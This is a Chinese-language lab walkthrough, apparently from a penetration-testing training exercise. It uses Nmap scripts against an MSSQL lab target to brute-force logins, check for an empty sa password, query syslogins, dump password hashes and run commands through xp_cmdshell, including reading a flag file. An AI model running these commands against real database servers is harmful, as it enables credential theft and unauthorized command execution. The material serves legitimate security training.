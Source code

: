 [ms-sql-brute](https://nmap.org/nsedoc/scripts/ms-sql-brute.html)

对 Microsoft SQL Server (ms-sql) 执行密码猜测。与broadcast-ms-sql-discover脚本结合使用效果最佳。

```
nmap 10.4.25.137 -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
```

[ms-sql-empty-password](https://nmap.org/nsedoc/scripts/ms-sql-empty-password.html)

尝试使用 sysadmin (sa) 帐户的空密码向 Microsoft SQL Server 进行身份验证。

```
nmap 10.4.25.137 -p 1433 --script ms-sql-empty-password
```

[ms-sql-query](https://nmap.org/nsedoc/scripts/ms-sql-query.html)

针对 Microsoft SQL Server (ms-sql) 运行查询。

```
nmap 10.4.25.137 -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
```

在文件管理器中打开`/root/output.txt`

[ms-sql-dump-hashes](https://nmap.org/nsedoc/scripts/ms-sql-dump-hashes.html)

以适合 John-the-ripper 等工具破解的格式从 MS-SQL 服务器转储密码哈希。为此，用户需要具有适当的数据库权限。

作为脚本参数传递的凭据优先于其他脚本发现的凭据。

```
nmap 10.4.25.137 -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
```

[ms-sql-xp-cmdshell](https://nmap.org/nsedoc/scripts/ms-sql-xp-cmdshell.html)

尝试使用 Microsoft SQL Server (ms-sql) 的命令外壳运行命令。

该脚本需要一个具有 sysadmin 服务器角色的帐户才能工作。

运行时，脚本会遍历凭据并尝试运行命令，直到所有凭据都用尽或执行命令。

```
nmap 10.4.25.137 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
```

```
nmap 10.4.25.137 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
```

# Recon: MSSQL: Nmap Scripts（侦察：MSSQL：Nmap 脚本）
## 概述
为您提供了一台 Kali GUI 机器和一台运行 MSSQL 服务的目标机器。目标机器的 IP 地址在 Kali 机器桌面 (/root/Desktop/target) 上名为 target 的文本文件中提供。 
